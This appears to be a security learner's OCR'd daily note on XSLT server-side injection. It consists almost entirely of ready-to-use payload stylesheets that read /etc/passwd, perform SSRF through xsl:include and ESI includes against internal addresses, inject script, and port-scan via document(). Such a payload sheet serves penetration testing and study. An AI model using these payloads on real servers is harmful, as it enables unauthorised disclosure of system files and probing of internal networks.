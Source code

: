 Daily Notes : Day 88
XSLT Server Side Injection
 (Extensible Stylesheet Language Transformations) - Part 1

The most used frameworks are: Libxslt (Gnome), Xalan (Apache) and Saxon (Saxonica).

 1. Read Local File: read.xsl
<xsl:stylesheet xmlns:xsl="http://w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>

 2. SSRF
<xsl:stylesheet xmlns:xsl="http://w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>

OR 

<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>

3. Javascript Injection 
<xsl:stylesheet xmlns:xsl="http://w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>

4. Port Scan 
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>